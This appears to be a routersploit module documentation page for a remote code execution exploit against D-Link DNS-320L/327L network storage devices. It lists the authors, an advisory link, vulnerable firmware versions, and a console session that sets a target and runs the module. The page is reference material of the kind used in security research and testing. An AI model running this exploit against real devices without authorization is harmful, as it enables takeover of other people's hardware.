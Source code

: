 # D-LINK DNS-320L & DIR-327L RCE

## Description
Module exploits D-Link DNS-320L, DNS-327L Remote Code Execution vulnerability which allows executing command on the device.

## Authors
* Gergely Eberhardt # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.search-lab.hu/media/D-Link_Security_advisory_3_0_public.pdf](http://www.search-lab.hu/media/D-Link_Security_advisory_3_0_public.pdf)

## Vulnerable devices
* DNS-320L 1.03b04
* DNS-327L, 1.02

## Usage
```
rsf > use exploits/dlink/dns_320l_327l_rce
rsf (D-LINK DNS-320L & DIR-327L RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (D-LINK DNS-320L & DIR-327L RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-LINK DNS-320L & DIR-327L RCE) > run
[*] Running module...
```
